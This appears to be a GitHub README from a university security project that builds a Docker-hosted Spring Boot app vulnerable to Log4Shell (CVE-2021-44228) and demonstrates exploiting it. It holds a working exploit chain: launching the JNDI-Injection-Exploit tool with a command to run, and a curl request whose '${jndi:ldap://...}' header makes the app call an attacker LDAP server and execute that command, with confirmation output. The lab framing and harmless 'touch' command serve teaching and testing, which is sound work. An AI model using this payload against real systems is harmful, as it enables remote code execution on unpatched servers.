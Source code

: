 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

To breach the app we just need to call it and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#Notice that we are including the endpoint given by the exploitation tool. 
#The name of the header does not matter because the app will print all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```
This will bring the same html message that is rendered in the browser

```bash
  <h1 style="color: #5e9ca0;">Log4Shell</h1><h4>Vulnerability - Exploitation and Mitigation</h4><p>API Version: 1.0</p>
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server in the exploitation tool which executed the given command at start up

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
